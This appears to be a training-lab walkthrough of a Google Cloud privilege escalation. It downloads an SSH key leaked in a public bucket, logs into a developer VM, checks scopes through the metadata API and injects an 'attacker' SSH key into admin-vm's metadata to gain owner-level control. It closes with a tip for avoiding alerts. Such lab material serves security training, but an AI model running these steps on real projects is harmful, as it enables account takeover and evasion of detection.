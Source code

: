# Objective

We will find the credential for a low privileged virtual machine instance from the dev bucket. Then access other high privileged compute instances using the low privileged machine.


# Solution

**Step 1:** List out the content of the dev bucket, you compromised from the misconfigured storage bucket.

![](https://user-images.githubusercontent.com/54552051/204803801-bfa0ab6c-402b-4321-8342-71bd893941b0.png)

![](https://user-images.githubusercontent.com/54552051/205142814-573502ad-3ec6-4809-bee3-65feb557275c.png)

In the bucket contents, you will find an interesting file named **config.txt** as highlighted in the above image. Copy the relative path for the file. There are some key files also in the same directory.

**Step 2:** Access the config.txt file using the relative path at the end of the bucket URL.

```
https://storage.googleapis.com/<DEV BUCKET NAME>/shared/files/.ssh/config.txt
```

![](https://user-images.githubusercontent.com/54552051/205142819-b7995b20-e022-4bea-acbe-ff7b2e2e29d9.png)

Here you will find multiple IPs with some users and their SSH key relative paths.

**Step 3:** Run the Nmap scan on the IP addresses using the below command.

```
nmap <IP_ADDR> -Pn
```

**Note:** Replace the IP_ADDR with the host IPs found in the config file.

![](https://user-images.githubusercontent.com/54552051/205142823-790fa47b-7e97-4560-8e96-beec334fb8f7.png)

One of the IP addresses will have port 22 open.

If you match this IP address in the config file, it will be for the user **justin**. 

![](https://user-images.githubusercontent.com/54552051/205142825-2499551e-66e3-42be-ba6e-e4695504a2ca.png)

Copy the relative path for the SSH key.

**Step 4:** Download the SSH key onto your system and change the permissions of the file using chmod command.

```
wget https://storage.googleapis.com/<DEV BUCKET NAME>/shared/files/.ssh/keys/justin.pem

chmod 400 justin.pem
```

These commands will download the key file and change the permissions to read-only for the current user only.

![](https://user-images.githubusercontent.com/54552051/204803874-678a0170-9152-4191-b7bc-24d8deb14e44.png)

**Step 5:** Access the virtual machine using the ssh key just downloaded.

```
ssh -i justin.pem justin@<IP_ADDR>
```

**Note:** Replace IP_ADDR with the IP address corresponding to justin in the config file.

![](https://user-images.githubusercontent.com/54552051/205142790-5ef8ec1e-a9b4-4ad1-88e8-0e73d2ad331d.png)

You will be successfully logged into the cloud virtual machine.

**Step 6:** Get the service account and project details using the below gcloud command.

```
gcloud config list
```

![](https://user-images.githubusercontent.com/54552051/205142797-792178a3-f93c-412f-a1af-f5efcd7aebd8.png)

This VM seems to be using default compute service account. The default service account has **Editor** level access to the project. But often restricted by access scopes.

**Step 7:** Check access scope for the VM using metadata API.

```
curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes \
    -H 'Metadata-Flavor:Google'
```

![](https://user-images.githubusercontent.com/54552051/204803882-2c67e546-f990-458e-a7bc-a3b92dd3713e.png)

We don't have full API access on the project, but we do have full access to compute services and read access for the buckets.

**Step 8:** List out all the compute instances inside the project.

```
gcloud compute instances list
```

![](https://user-images.githubusercontent.com/54552051/205142799-4fd6f317-ab28-4a53-8cbd-284c3977ca8a.png)

Here we have another VM inside the project named as **admin-vm**. Note down the public IP address for the admin VM.

We will access this VM by modifying its metadata.

**Step 9:** Create a new SSH key for a user **attacker** using the below command.

```
ssh-keygen -t rsa -C "attacker" -f ./key -P "" && cat ./key.pub
```

![](https://user-images.githubusercontent.com/54552051/204803886-c7f73a5e-e221-4c3b-a8d6-78ccff403085.png)

A public and private key pair will be created for a user attacker. The public key is in **key.pub** file and the private key is in **key** file.

**Step 10:** Create a meta.txt file consisting of the user and the public key for this user.

```
NEWKEY="$(cat ./key.pub)"
echo "attacker:$NEWKEY" > ./meta.txt
```

We are storing the public key in the **NEWKEY** variable and then adding the USER:KEY data to the meta.txt file.

![](https://user-images.githubusercontent.com/54552051/204803887-a64505ca-1f0f-4fbf-92f2-6882b3e50119.png)

You can check the meta.txt file using the **cat** command.

**Step 11:** Update the metadata of the admin-vm instance using the below command.

```
gcloud compute instances add-metadata admin-vm --metadata-from-file ssh-keys=meta.txt
```

This command will add the content of meta.txt in the **ssh-keys** section of the instance metadata.

![](https://user-images.githubusercontent.com/54552051/204803892-a0e84265-54a3-4833-a00d-1719e5f8bfa4.png)

Hit **Y** if asked for the zone of the instance.

**Step 12:** Verify the metadata is updated for the admin-vm instance using the below gcloud command.

```
gcloud compute instances describe admin-vm --zone us-west1-c
```

![](https://user-images.githubusercontent.com/54552051/205142802-68bd0835-4aa1-45e3-b765-3f8fd6658c92.png)

![](https://user-images.githubusercontent.com/54552051/204803896-d619b6c8-832f-42f7-bdfd-cfef28a7da51.png)

There is a key added to the **ssh-keys** section for the attacker user. You can follow the same method to update the SSH keys of an existing user.

**Step 13:** Log in to the admin-vm using the newly created key.

```
ssh -i ./key attacker@<IP_ADDR>
```

**Note:** Replace the IP_ADDR with the public IP of admin-vm instance.

![](https://user-images.githubusercontent.com/54552051/205142808-5856c012-81ba-4c71-870d-9cfe765a0612.png)

You will be successfully logged in to the admin-vm with the attacker user. By default, the user will have sudo access as it was added through the metadata of this instance.

**Step 14:** Check for the project name and service account attached to this VM using the below gcloud command.

```
gcloud config list
```

![](https://user-images.githubusercontent.com/54552051/205142811-e886d5a9-a815-4696-8ad3-f8fe72284273.png)

A service account named **admin-service-account** is attached to this instance. Note down the project name.

**Step 15:** Get the IAM policy of the project to check the access of this service account using the below gcloud command.

```
gcloud projects get-iam-policy <PROJECT NAME>
```

**Note:** Replace the PROJECT NAME with the project id you got from previous step.

![](https://user-images.githubusercontent.com/54552051/204803909-45b0631b-2f5a-42f2-83c0-b1c5b322252c.png)

You can see that this service account has the **owner** role on this project.

**Step 16:** Check access scope for the VM using metadata API.

```
curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes \
    -H 'Metadata-Flavor:Google'
```

![](https://user-images.githubusercontent.com/54552051/204803913-555e4ff9-5116-4bef-aeec-706975a318a3.png)

**cloud-platform** access scope means that we have full API access. This instance has full owner access over the project.


**Step 17:** Login to the admin-vm from the developer VM using a simple command.

```
gcloud compute ssh admin-vm
```

This command will add the current user to the admin-vm instance by modifying the metadata.

![](https://user-images.githubusercontent.com/54552051/204803915-5f6ab5c1-8246-4b3c-927a-c03fdc7f5097.png)

![](https://user-images.githubusercontent.com/54552051/204803920-1c4cb0a4-0755-42df-bbca-92b2227206fc.png)

You are now logged in to the admin-vm with user **justin**.

This method seems very easy but can trigger some alerts as a new user and ssh key are added to the VM. By using the previous method you can also change the SSH keys of any existing user. Thus creating less noise in the environment.
